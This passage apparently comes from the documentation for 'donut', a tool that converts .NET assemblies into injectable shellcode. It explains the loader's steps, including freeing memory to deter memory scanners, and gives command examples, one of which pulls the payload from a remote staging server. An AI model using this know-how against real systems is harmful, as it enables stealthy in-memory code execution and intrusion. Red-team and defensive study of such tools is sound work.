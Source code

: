 ```Shortly before publishing donut, Odzhan and I became aware of another team working on a shellcode generator for .NET Assemblies. They were at the same stage of their project at us. We both agreed that whomever of us published first would ensure that the other received due credit for their work. As soon as they publish their tool, we will update this article with a link.```
The first action that donut's shellcode takes is to load the CLR. Unless the user specifies the exact runtime version to use, v4.0.30319 of the CLR will be used by default, which supports the versions 4.0+ of .NET. Once the CLR is loaded, the shellcode creates a new Application Domain. At this point, the .NET Assembly payload must be obtained. If the user provided a staging URL, then the Assembly is downloaded from it. Otherwise, it is obtained from memory. Either way, it will loaded into the new AppDomain. After the Assembly is loaded but before it is run, the decrypted copy will be released and later freed from memory with VirtualFree to deter memory scanners. Finally, the Entry Point specified by the user will be invoked along with any provided parameters.

If the CLR is already loaded into the host process, then donut's shellcode will still work. The .NET Assembly will just be loaded into a new Application Domain within the managed process. .NET is designed to allow for .NET Assemblies built for multiple versions of .NET to run simultaneously in the same process. As such, your payload should always run no matter the process's state before injection.

## Shellcode Generation

The logic above describes how the shellcode generated by donut works. That logic is defined in payload.exe. To get the shellcode, exe2h extracts the compiled machine code from the .text segment in payload.exe and saves it as a C array to a C header file. donut combines the shellcode with a Donut Instance (a configuration for the shellcode) and a Donut Module (a structure containing the .NET assembly, class name, method name and any parameters).

# Using Donut

Donut can be used as-is to generate shellcode from arbitrary .NET Assemblies. Both a Windows EXE and a Python script are provided for payload generation. The command-line syntax is as described below.

```  
 usage: donut [options] -f <.NET assembly> -c <namespace.class> -m <Method>

       -f <path>            .NET assembly to embed in PIC and DLL.
       -u <URL>             HTTP server hosting the .NET assembly.
       -c <namespace.class> The assembly class name.
       -m <method>          The assembly method name.
       -p <arg1,arg2...>    Optional parameters for method, separated by comma or semi-colon.
       -a <arch>            Target architecture : 1=x86, 2=amd64(default).
       -r <version>         CLR runtime version. v4.0.30319 is used by default.
       -d <name>            AppDomain name to create for assembly. Randomly generated by default.

 examples:

    donut -a 1 -c TestClass -m RunProcess -p notepad.exe -f loader.dll
    donut -f loader.dll -c TestClass -m RunProcess -p notepad.exe -u http://remote_server.com/modules/
```

## Generating Shellcode

To generate shellcode with donut, you must specify a .NET Assembly, an Entry Point, and any parameters that you wish to use. If your Assembly uses the *Test* namespace and includes the *Program* class with the *Main* method, then you would use the following options:

```
donut.exe -f Test.exe -c Test.Program -m Main
```

To generate the same shellcode for 32-bit processes, use the '-a' option:

```
donut.exe -a 1 -f Test.exe -c Test.Program -m Main
```

```
